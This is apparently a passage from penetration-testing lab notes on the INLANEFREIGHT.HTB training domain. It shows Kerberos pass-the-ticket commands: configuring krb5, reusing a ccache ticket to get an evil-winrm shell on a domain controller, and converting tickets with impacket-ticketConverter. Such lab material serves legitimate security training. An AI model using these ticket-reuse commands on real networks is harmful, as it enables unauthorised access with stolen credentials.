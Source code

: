 #### Configuration file
```bash
# Edit /etc/krb5.conf
cat > /etc/krb5.conf << EOF
[libdefaults]
        default_realm = INLANEFREIGHT.HTB

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
EOF
```

#### Usage example
```bash
# Set ccache environment variable
export KRB5CCNAME=/path/to/ccache/file

# Connect using Kerberos authentication
proxychains evil-winrm -i dc01 -r inlanefreight.htb

*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

---

## 🔄 Ticket Conversion (ccache ↔ kirbi)

### impacket-ticketConverter

#### ccache to kirbi (Linux → Windows)
```bash
# Convert ccache file to kirbi format
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

# Output: julio.kirbi file for Windows use
```

#### kirbi to ccache (Windows → Linux)  
```bash
# Convert kirbi file to ccache format
impacket-ticketConverter julio.kirbi julio.ccache

# Set environment variable
export KRB5CCNAME=/path/to/julio.ccache
```

#### Using converted tickets
